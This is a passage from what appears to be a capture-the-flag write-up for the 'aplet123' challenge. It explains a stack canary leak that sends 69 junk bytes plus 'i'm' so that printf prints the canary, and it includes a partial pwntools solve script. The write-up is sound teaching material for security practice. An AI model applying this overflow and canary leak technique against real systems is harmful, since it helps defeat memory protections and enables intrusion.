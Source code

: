 ![](after-printf.png)

As seen above, the index of `"i'm"` is 3 bytes before the canary and the fourth byte would be the first byte of the canary which is always a null byte. So, we can abuse the `printf` to print out the entire canary, minus the null byte! It took some debugging, but we found that 69 characters of junk are needed plus the `"i'm"` string at the end to achieve the leak. Now that we've got our leak, all thats left is to parse it and write the exploit. Our solve script so far can be seen below. 

```python
from pwn import *
elf = context.binary = ELF("aplet123")
context.terminal = ['tmux', 'split-window', '-h']
script = '''
init-pwndbg
break *0x00000000004012b8
'''

p = elf.process()
gdb.attach(p, script)
offset = 69
leak_canary = flat([
    'a' * offset,
    "i'm"
])

p.sendline(leak_canary)
print(p.recvuntil(b'hi'))
```